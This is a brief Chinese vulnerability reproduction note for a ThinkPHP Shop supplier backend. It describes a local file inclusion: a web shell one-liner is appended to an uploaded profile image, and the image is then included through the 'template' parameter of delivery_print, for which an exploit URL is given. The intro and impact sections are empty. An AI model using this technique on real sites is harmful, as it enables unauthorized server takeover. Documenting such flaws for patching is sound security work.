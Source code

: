 Thinkphp Shop 供应商后台本地文件包含导致权限提升
================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、用户个人资料修改处上传图片

<http://www.0-sec.org/Home/User/info.html>

### 2、上传一张正常图片，并在图片末尾加上一句话

### 3、返回shell

http://www.0-sec.org/supplier/order/delivery\_print?template=public/upload/user/4575/head\_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpi
